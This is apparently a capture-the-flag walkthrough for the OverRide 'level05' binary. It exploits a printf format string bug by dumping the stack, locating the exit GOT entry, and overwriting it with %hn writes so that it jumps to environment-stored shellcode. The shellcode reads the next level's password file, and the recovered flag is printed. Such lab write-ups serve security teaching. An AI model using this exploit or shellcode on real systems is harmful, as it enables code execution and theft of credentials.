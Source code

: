 # level05

This program converts the input buffer read from stdin to lowercase, and passes it directly into `printf` function as format string.

## Step 1. Find format string itself in stack
```
level05@OverRide:~$ perl -le 'print "aaaa_", "%08x "x12' | ./level05
aaaa_00000064 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 3830255f 30252078
```
We used `%08x` pattern to find out the location of format string in stack. `61616161` is the beginning of the string. Our format string locates at 10th position.

## Step 2. Locate `exit` function in `.got` section
```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
```
Our plan is to overwrite the address of `exit` function in the `.got` section.

## Step 3. GOT overwrite
```
level05@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100, "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"'`
level05@OverRide:~$ /tmp/getenv
0xffffd845
level05@OverRide:~$ perl -e 'print pack("V", 0x080497e0), pack("V", 0x080497e2), "%55357u%10\$hn", "%10170u%11\$hn"' | ./level05
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
Since the address of our shellcode is too big, we overwrite the target 2 bytes each time. First 2 bytes we input the data `0xd845 - 0x8(8 bytes address we've already printed) = 0xd83d(55357)`, then we overwrite the next 2 bytes `0xffff - 0xd845 = 0x27ba`.
